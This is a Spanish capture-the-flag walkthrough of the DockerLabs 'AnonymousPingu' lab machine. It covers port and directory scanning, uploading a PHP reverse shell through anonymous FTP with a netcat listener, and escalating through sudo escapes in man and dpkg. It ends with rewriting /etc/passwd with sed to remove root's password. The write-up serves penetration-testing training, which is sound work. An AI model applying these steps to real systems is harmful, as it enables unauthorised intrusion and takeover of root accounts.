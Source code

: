 ```yaml
---
title: AnonymousPingu - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Facil      | ElPinguinoDeMario | 


# Reconocimiento 
Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que los puertos que se encuentran activos son el 21 (FTP) y el 80 (HTTP).
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/fbdcf75b-e25d-4d92-8797-3e558b2a92e6)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 21,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/35d4dab8-0433-48d9-9943-52e4e2a36bfd)

## Exploración Web
Al acceder a la página web, observamos lo siguiente:

![image](https://github.com/user-attachments/assets/ede1f8d5-c313-4e69-94ee-aee4e813aa5e)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/7684d11b-a469-40f3-8254-b0d964ec0112)

Vemos que hay un directorio upload pero no hay nada dentro.

![image](https://github.com/user-attachments/assets/d2061512-4cf0-4b1a-90a6-0abaad99a259)

## FTP

Procedemos a explorar el servicio FTP, ya que hemos identificado anteriormente que el usuario `anonymous` está habilitado y que tenemos permisos de escritura en el directorio `upload`. 

**Nota:** Los usuarios `anonymous` no suelen tener contraseñas o son opcionales en muchos servidores FTP.

A continuación, intentamos conectarnos al servidor FTP utilizando el siguiente comando:
```bash
ftp 172.17.0.2
```
Al intentar acceder al servidor FTP con el usuario `anonymous` y sin contraseña, observamos que podemos entrar perfectamente. 

![image](https://github.com/user-attachments/assets/ea8254c0-879e-4ece-b542-3f19975c77a5)

## Intrusión en la Máquina

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

### Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Creamos un archivo de reverseshell en nuestro sistema local utilizando el código disponible en la ruta mencionada anteriormente.
2. **Subir el Archivo**: Utilizamos el comando de FTP para subir el archivo al directorio `upload`.
3. **Ejecutar la Reverseshell**: Una vez que el archivo esté en el servidor, lo ejecutaremos para establecer la conexión.

![image](https://github.com/user-attachments/assets/c6b9c6c5-e334-466c-ac7c-931e21464118)

Nos ponemos a escuchar por netcat en mi caso por el 4444

```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/efce64bc-e77c-42cb-8b26-c651f630a409)

Y ya tendriamos acceso a la maquina.

![image](https://github.com/user-attachments/assets/bbc7b73c-09e9-4095-a526-e827fdead208)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

## Usuario pingu

Ya estamos dentro de la máquina. Si ejecutamos el comando `sudo -l`, vemos que podemos ejecutar `man` como `Pingu`. Para ello, debemos hacer lo siguiente:

![Interfaz de la herramienta](https://github.com/user-attachments/assets/cef8486b-9c3c-4905-90b8-1dc9d1c54986)

Esta herramienta tiene una sección al final que muestra `MORE`. Si en lugar de desplazarnos hacia abajo, escribimos `!/bin/bash`, se generará una shell con ese usuario.

```shell
sudo -u pingu /usr/bin/man find
```

![image](https://github.com/user-attachments/assets/7300b460-b586-4311-b862-5bd5df506bd4)

Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/eb9e8678-2261-4e21-96bc-9a49f19abafc)

Vemos que hemos subido de usuario y ya estamos con el usuario `pingu`.

![Cambio de usuario](https://github.com/user-attachments/assets/0c3da884-f0fb-45df-9692-59312d0752ab)

## Usuario gladys

Vamos a volver a ejecutar el comando `sudo -l`.

![Comando sudo](https://github.com/user-attachments/assets/0cedf58f-0919-4d19-a6eb-c37df62b1d4b)

Observamos que podemos ejecutar `nmap` y `dpkg` como `gladys`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`. En mi caso, utilizaré `dpkg` y aplicaré el mismo método que antes con `man`.

```bash
sudo -u gladys /usr/bin/dpkg -l
```
Si ahora ponemos `!/bin/bash`:

![image](https://github.com/user-attachments/assets/7f86e264-8d5c-4fb9-8302-0177b78e7dbf)

Vemos que hemos subido de usuario y ya estamos con el usuario `gladys`.

![image](https://github.com/user-attachments/assets/0e482934-f8cd-4cd1-bede-abf6bd888fa6)


## Usuario root
Vamos a volver a ejecutar `sudo -l`.

![image](https://github.com/user-attachments/assets/fb5bbc2b-bd10-4091-bb4c-a9b168f0d487)

Observamos que podemos ejecutar `chown` como `root`. Para ello, procedemos de la siguiente manera:

Primero cambiamos los permisos de `/etc/passwd` para que nuestro usuario tenga permisos:
```bash
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```
Dado que no podemos usar `nano` o `vim` porque no están en el sistema instalados, utilizaremos `sed` para que elimine la X que tiene root para que la contraseña no nos la pida.
```bash
sed 's/^root:[^:]*:/root::/' /etc/passwd > /etc/passwd1
```
Para finalizar copiamos el `/etc/passwd1` donde esta el original para que lo sobreescriba
```bash
cp /etc/passwd1 /etc/passwd
```
Ahora hacemos un `su root` y accederemos al usuario *root* sin proporcionar contraseña

![image](https://github.com/user-attachments/assets/45c469ca-e1f3-4c7a-8025-920b591e5324)


